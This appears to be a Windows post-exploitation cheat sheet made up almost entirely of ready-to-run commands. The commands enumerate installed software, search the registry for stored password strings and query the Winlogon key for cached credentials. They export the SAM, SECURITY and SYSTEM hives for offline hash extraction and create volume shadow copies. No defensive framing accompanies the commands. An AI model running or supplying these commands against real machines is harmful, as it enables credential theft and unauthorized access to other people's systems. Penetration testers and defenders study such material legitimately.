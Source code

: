 ## list installed software (1)
```
dir /a "C:\Program Files"
```

## list installed software (2)
```
dir /a "C:\Program Files (x86)"
```

## list installed software (3)
```
reg query HKEY_LOCAL_MACHINE\SOFTWARE
```

## show lsa cached credentials value
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

## register query word password (1)
```
reg query HKLM /f password /t REG_SZ /s
```

## register query word password (2)
```
reg query HKCU /f password /t REG_SZ /s
```

## register query extract SAM

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named reg can be used to export them.

```
reg save HKLM\SAM 'C:\Windows\Temp\sam.save'
reg save HKLM\SECURITY 'C:\Windows\Temp\security.save'
reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'
```

## create shadow copy
```
wmic shadowcopy call create Volume='C:\'
```

## list shadow copy
```
vssadmin list shadows
```

